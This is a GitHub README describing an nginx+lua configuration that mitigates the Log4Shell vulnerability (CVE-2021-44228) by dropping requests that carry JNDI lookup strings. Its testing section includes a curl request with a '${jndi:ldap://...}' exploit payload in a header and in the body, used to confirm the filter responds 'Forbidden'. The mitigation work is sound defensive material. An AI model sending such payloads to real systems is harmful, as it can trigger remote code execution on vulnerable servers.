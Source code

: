 
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA applications. Nginx, with the help of lua module, will prevent the attacker to access vulnerable JAVA application.
Special thanks to [John H Patton
](https://johnhpatton.medium.com/) for the motivation to extend the solution he wrote to mitigate the Log4j vulnerability.


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). By following this guide, we can mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal application.


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the [Expertflow Dockerhub registry](https://hub.docker.com/r/expertflow/nginx-lua/tags).
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.

We assume that the nginx is deployed in Docker throughout the document.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `https-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/nginx_volume_mount/`. 
For example if you have deployed nginx in Docker then there must be a section present called `Volumes:` in your docker-compose. For example:
```
volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
```

This is mounting a custom `https.conf` file to the build-in nginx `https.conf` file present under the directory: `/etc/nginx/conf.d/` in nginx container.

2. Now we need to modify `https.conf`. Update the `/path/to/nginx_volume_mount/https.conf` file by adding the following code in `https.conf`

```
include /etc/nginx/https-lua.conf
```



3. Now we need to update the `docker-compose.yml` file of the nignx. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/nginx_volume_mount/https.conf:/etc/nginx/conf.d/https.conf
      - /path/to/nginx_volume_mount/https-lua.conf:/etc/nginx/https-lua.conf
      - /path/to/nginx_volume_mount/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/nginx_volume_mount/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/nginx_volume_mount/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/uri' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
This will show you the following response which indicates that the configurations are working in perfect manner.
```
 Expertflow Log4J Forbidden
```
